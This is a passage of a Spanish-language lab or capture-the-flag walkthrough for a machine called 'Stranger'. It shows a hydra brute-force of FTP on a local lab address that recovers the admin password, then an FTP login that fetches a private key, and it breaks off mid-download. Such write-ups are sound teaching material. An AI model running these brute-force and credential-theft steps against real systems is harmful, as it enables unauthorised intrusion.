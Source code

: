 Haciendo fuzzing de nuevo encontramos una nueva web que nos da esta pista:
![](/assets/img/Anexos/Máquina%20Stranger-4.png)


En cuanto al _private.txt_

![](/assets/img/Anexos/Máquina%20Stranger-3.png)

```shell
❯ cat private.txt
───────┬─────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: private.txt
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ `O��N�^P����f-�]�^]T��K.Q�a���mgu�3��i���^T���ȉ���P�+F�8^^Q[
───────┴─────────────────────────────────────────────────────────────────────────────────────────────────────
```

Tenemos este archivo no legible aparentemente encriptado.

## Explotación 

```shell
❯ hydra -l admin -P /usr/share/wordlists/rockyou.txt ftp://172.17.0.2 -t 63
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-05-08 08:58:03
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 63 tasks per 1 server, overall 63 tasks, 14344398 login tries (l:1/p:14344398), ~227689 tries per task
[DATA] attacking ftp://172.17.0.2:21/
[21][ftp] host: 172.17.0.2   login: admin   password: banana
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 13 final worker threads did not complete until end.
[ERROR] 13 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-05-08 08:58:31
```

Haciendo fuerza bruta en ftp como nos indicaba en la pista logro sacar la contraseña de admin que es **banana**. En el ftp hay una clave llamada _private_key.pem_. Puede que esa clave sirva para desencriptar el archivo _private.txt_

```shell
❯ ftp 172.17.0.2
Connected to 172.17.0.2.
220 Welcome to my FTP server
Name (172.17.0.2:belin): admin
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxr-xr-x    1 0        0             522 May 01  2024 private_key.pem
226 Directory send OK.
ftp> get private_key.pem
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for private_key.pem (522 bytes).
```